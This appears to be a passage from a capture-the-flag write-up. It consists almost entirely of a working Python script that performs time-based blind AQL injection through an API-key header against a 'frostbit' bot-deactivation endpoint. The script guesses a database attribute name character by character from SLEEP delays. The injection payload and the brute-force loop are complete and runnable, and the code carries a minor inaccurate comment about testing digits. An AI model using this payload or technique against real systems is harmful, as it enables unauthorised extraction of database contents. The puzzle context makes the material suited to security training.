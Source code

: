 ### Guessing name of AQL's attributes

```python
import requests
import time
import string

# Define the target URL and headers
url = 'https://api.frostbit.app/api/v1/frostbitadmin/bot/83270120-3b1c-41f3-b25b-deaa5b5d1327/deactivate?debug=true'
headers = {
    'Host': 'api.frostbit.app',
    'X-Api-Key': ""  # Placeholder for the payload
}

# Function to test a single character of the attribute name
def test_character(guessed_name, character):

    # Build the payload with the current guessed_name and the new character
    pattern = guessed_name + character + "%"
    print(f"Testing pattern: '{pattern}'")
    payload = f"' OR ATTRIBUTES(doc)[0] LIKE '{pattern}' ? SLEEP(2) : 'a"
    headers['X-Api-Key'] = payload

    start_time = time.time()  # Record the start time of the request
    response = requests.get(url, headers=headers)
    elapsed_time = time.time() - start_time  # Calculate response time

    if elapsed_time >= 2:  # If response is delayed by 2 seconds, the character is correct
        print(f"Found character '{character}'!")
        return True
    return False

# Function to guess the full name of Attribute 0
def guess_attribute_name(attribute_length):
    guessed_name = ""

    for i in range(attribute_length):  # Loop for the known length of the attribute
        for character in string.ascii_letters + "_" + "!":  # Test a-z, A-Z, 0-9, and _!
            #time.sleep(2)  # Small delay to avoid overwhelming the server
            if test_character(guessed_name, character):
                guessed_name += character
                break  # Move to the next position once the correct character is found
        

    return guessed_name

# Main function
if __name__ == "__main__":
    print("Starting to guess the name of Attribute 0 using LIKE...\n")
    
    attribute_length = 18  # Length of Attribute 0
    attribute_name = guess_attribute_name(attribute_length)
    
    print(f"\nGuessed name for Attribute 0: {attribute_name}")

```
